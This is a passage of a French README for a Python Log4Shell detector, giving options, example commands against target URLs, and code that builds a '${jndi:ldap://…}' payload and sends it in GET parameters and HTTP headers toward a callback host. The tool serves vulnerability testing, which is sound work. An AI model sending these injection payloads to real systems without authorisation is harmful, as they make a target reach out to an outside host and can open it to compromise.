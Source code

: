 ### Options disponibles
- `-u, --url URL` : URL cible à tester (requis)
- `-c, --callback URL` : URL de callback unique pour détecter les interactions (requis)
- `-h, --help` : Affiche l'aide

### Exemples d'utilisation

#### 1. Test avec interact.sh
```bash
python detecteur_log4shell.py -u "https://target.com/api/login" -c "xxxxx.oast.fun"
```

#### 2. Test avec Burp Collaborator
```bash
python detecteur_log4shell.py -u "http://vulnerable-app.com" -c "burp-collaborator-subdomain.burpcollaborator.net"
```

#### 3. Test d'une application interne
```bash
python detecteur_log4shell.py --url "http://192.168.1.100:8080/app" --callback "test123.interact.sh"
```

## Structure des fichiers

```
Détecteur-Log4Shell/
├── detecteur_log4shell.py    # Script principal
├── requirements.txt          # Dépendances Python
└── README.md                # Cette documentation
```

## Logique de fonctionnement

### 1. Génération du payload
```python
def generate_payload(callback_url):
    parsed_url = urlparse(callback_url)
    clean_callback = parsed_url.netloc or parsed_url.path
    return f"${{jndi:ldap://{clean_callback}/a}}"
```

### 2. Test des paramètres GET
```python
requests.get(target_url, params={"param": payload}, timeout=5, verify=False)
```

### 3. Test des en-têtes HTTP
```python
for header in HEADERS_TO_TEST:
    headers = {header: payload}
    requests.get(target_url, headers=headers, timeout=5, verify=False)
```
